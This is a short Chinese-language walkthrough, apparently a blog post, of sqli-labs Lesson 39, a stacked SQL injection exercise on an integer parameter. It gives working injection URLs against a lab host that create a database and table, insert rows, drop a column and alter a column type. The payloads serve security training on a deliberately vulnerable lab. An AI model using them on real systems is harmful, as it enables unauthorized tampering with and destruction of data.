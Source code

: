 ```yaml
---
title: sqli-labs lession-39 GET-堆叠注入-整型
date: 2018-10-18 23:09:00
tags: [sqli-labs]
categories: sql注入
---
```


# sqli-labs lession-39 GET-堆叠注入-整型

---

## 分析

与上一课只是闭合方式不同。

## 增

`http://192.168.75.133/sql/Less-39/?id=1; create database auth;use auth;create table users( id int(3) not null auto_increment, username varchar(200) not null, password varchar(200) not null, primary key (id));%23`

```
create database auth; //创建数据库
use auth; 			//使用auth数据库
//创建用户表
create table users(
    id int(3) not null auto_increment,
    username varchar(200) not null,
    password varchar(200)  not null,
    primary key (id)
);

```

![001](/img/sql/Lesson-39/001.png)

插入数据

`http://192.168.75.133/sql/Less-39/?id=1;use auth;insert into users values('0','zhao','zhao'); insert into users values('0','qian','qian'); insert into users values('0','sun','sun'); insert into users values('0','li','li'); insert into users values('0','admin','admin');%23`

![002](/img/sql/Lesson-39/002.png)

## 删

**删除已存在的字段**

`http://192.168.75.132/sql/Less-39/?id=1;use auth;alter table users drop username;%23`

![003](/img/sql/Lesson-39/003.png)

![004](/img/sql/Lesson-39/004.png)

## 改

修改列的类型

`http://192.168.75.132/sql/Less-39/?id=1;use auth;alter table users modify id char(40);%23`

![005](/img/sql/Lesson-39/005.png)

![006](/img/sql/Lesson-39/006.png)
